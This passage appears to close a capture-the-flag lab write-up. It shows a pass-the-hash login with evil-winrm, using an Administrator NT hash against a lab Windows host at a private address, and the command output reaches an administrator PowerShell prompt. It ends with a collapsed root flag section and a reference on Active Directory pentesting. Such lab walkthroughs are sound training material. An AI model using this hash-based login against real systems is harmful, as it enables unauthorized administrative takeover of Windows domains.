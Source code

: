 Nice! Now we can connect to the server via <code>evil-winrm</code> with the **<code>Administrator</code>'s NTLM (NT) hash**:
```
┌──(kali㉿kali)-[~/upload]
└─$ evil-winrm -i 192.168.211.142 -u 'Administrator' -H 'dd7a157c6ffe3072305e9eb326ae37d5'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

<details><summary><b>🏳️root.txt</b></summary></details>


## 📚 References:

- https://www.hackingarticles.in/active-directory-penetration-testing-using-impacket/